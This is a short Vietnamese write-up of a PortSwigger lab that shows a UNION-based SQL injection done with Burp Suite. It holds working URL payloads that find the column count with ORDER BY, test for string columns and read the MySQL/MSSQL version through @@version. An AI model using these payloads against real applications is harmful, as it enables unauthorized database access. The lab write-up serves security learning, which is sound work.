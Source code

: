![image](https://github.com/user-attachments/assets/12fdbefd-c347-4902-8f7d-2a2bb5ccb270)# SQL injection attack, querying the database type and version on MySQL and Microsoft

Bài lab này yêu cầu ta truy cập vào dữ liệu liên quan tới version của phiên bản MySQL, Microsoft.

Đầu tiên ta mở `Burpsuite` và thực hiện gửi request tới `Repeater` rồi tiến hành kiểm tra xem có bao nhiêu cột bằng cách thay đổi payload của `Get request` thành:
- `/filter?category=Gifts'+ORDER+BY+1#`
- `/filter?category=Gifts'+ORDER+BY+2#`
- `/filter?category=Gifts'+ORDER+BY+3#`(tới đây thì server error, vậy là chỉ có 2 cột)

Tiếp theo ta tiến hành kiểm tra kiểu dữ liệu trong cột xem có phải ở dạng chuỗi không(vì thông tiên phiên bản được hiển thị ở dạng chuỗi) với payload của `Get request` như sau:
- `/filter?category=Gifts'+UNION+SELECT+'abc',+'def'#`

![](https://github.com/Luwcj/SQLi/blob/main/Portswigger/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/2.1.png?raw=true)

Tiếp theo ta truy cập vào dữ liệu trong cột @@version và lấy thông tin thui:
- `/filter?category='+UNION+SELECT+@@version,NULL#`

![](https://github.com/Luwcj/SQLi/blob/main/Portswigger/SQL%20injection%20attack,%20querying%20the%20database%20type%20and%20version%20on%20MySQL%20and%20Microsoft/2.2.png?raw=true)
